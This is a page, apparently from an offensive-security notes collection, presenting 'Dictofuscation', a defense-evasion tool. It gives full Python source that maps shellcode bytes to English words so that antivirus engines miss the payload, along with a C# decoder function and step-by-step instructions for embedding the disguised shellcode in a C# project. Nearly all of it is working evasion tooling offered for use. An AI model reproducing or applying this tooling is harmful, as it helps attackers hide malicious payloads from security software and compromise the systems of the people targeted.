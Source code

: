 # Dictofuscation
---
description: Defense Evasion
---


# Code obfuscation with association dictionnary

The use of a shellcode encoder by dictionary association is in the same logic as obfuscation by IP address, by Mac address or UUID, but includes linguistic consistency. This project merges security and linguistic engineering for advanced concealment.


## Why strings

Some antiviruses may consider that the presence of English strings in the compiled data of a binary are considered as a historical indicator and reinforce its legitimacy against detection engines.
Dictionary association does not increase entropy and allows complex data encoding to be reversed.


## Execution

By default, the encoder takes a list of words from MIT, but you can also create your own.
It calculates each hexadecimal value from 0x00 to 0xFF and associates a word with it. Then, each byte of your shellcode is converted to hexadecimal and encoded with the corresponding word.
You can do the exact opposite in C# to get your shellcode.

![](./assets/demo.png)


## Source code

```python
#!/usr/bin/env python3

# Author : Processus Thief
# https://github.com/ProcessusT/Dictofuscation
# Version : 1.0

import sys
import requests
import random
import json


def main(input_file):
    # Creation du dictionnaire de correspondance
    word_site = "https://www.mit.edu/~ecprice/wordlist.10000"
    response = requests.get(word_site)
    words = response.content.splitlines()
    words = [word.decode('utf-8') for word in words]
    random.shuffle(words)
    hex_values = [f'0x{i:02x}' for i in range(256)]
    word_dict = dict(zip(hex_values, words[:256]))
    dict_items = [f'{{ "{word}", "{hex_val}" }}' for word, hex_val in word_dict.items()]
    formatted_dict = "var wordDict = new Dictionary<string, byte>\n{\n    " + ",\n    ".join(dict_items) + "\n};"
    print("1. Copier-coller ce dictionnaire d'association dans le code C# : \n\n" + str(formatted_dict) + "\n\n")

    # Encodage du payload
    encoded_string = "string data = \""
    with open(input_file, 'rb') as f_in:
        byte = f_in.read(1)
        while byte:
            hex_value = f"0x{byte.hex()}"
            if hex_value in word_dict:
                encoded_string += word_dict[hex_value] + ' '
            byte = f_in.read(1)
    encoded_string = encoded_string.rstrip() + "\";"
    print("2. Utiliser ce payload obfusque dans votre code C# : \n\n" + str(encoded_string) + "\n\n")

    # Affichage de la fonction de decodage
    csharp_function = """
    static byte[] DecodeWordsToBytes(string data, Dictionary<string, byte> wordDict){
        var words = data.Split(new[] { ' ' }, StringSplitOptions.RemoveEmptyEntries);
        var byteList = new List<byte>();
        foreach (var word in words){
            if (wordDict.ContainsKey(word)){
                byteList.Add(wordDict[word]);
            }else{
                Console.WriteLine("[!] Error while decoding");
            }
        }
        return byteList.ToArray();
    }"""
    print("3. Copier-coller cette fonction de decodage dans le code C# : \n\n" + str(csharp_function) + "\n\n")
    


if __name__ == "__main__":
    print("##########################################")
    print("########### PAYLOAD OBFUSCATOR ###########")
    print("##########################################\n")
    if len(sys.argv) != 2:
        print("Usage: python encode.py <path_to_raw_payload_file>\n")
        sys.exit(1)
    
    file_path = sys.argv[1]
    main(file_path)
```


## HOWTO
<br />
> Generate your shellcode file<br />
> Use the encoder to obfuscate it : python3 encode.py shellcode.bin > output.txt<br />
> Copy and paste output datas in your C# project<br />
> Enjoy<br />

<br /><br /><br />
